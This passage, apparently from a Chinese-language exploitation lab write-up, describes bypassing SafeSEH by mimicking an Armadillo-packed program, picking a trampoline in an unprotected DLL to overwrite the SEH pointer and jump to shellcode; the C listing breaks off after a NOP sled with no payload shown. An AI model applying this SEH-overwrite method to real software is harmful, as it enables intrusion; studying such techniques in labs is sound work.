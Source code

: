 实验环境

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1ocjlvf3ij20m00ebq5z.jpg>)

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1oouyzfmcj20qg0h6tfr.jpg>)

设置为0x53和0x52来模拟Armadilo加壳的程序。接下来就和前面SafeSEH差不多了，可以在od里面看到我们写的dll没有加任何的保护

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1oox3w5r5j214c0aqwi3.jpg>)

我们在这里面找一个跳板

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1ooxzhdrxj20ou0erdiv.jpg>)

作为覆盖S.E.H指针的位置。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1oozcztd0j20ce098wf0.jpg>)

然后我们就可以在这里调用shellcode了

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1op1lhl1hj20pt0ll0wg.jpg>)

代码：

	#include "stdafx.h"

	#include "stdlib.h"

	#include <windows.h>

	char shellcode[]=

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x90\x90\x90\x90"
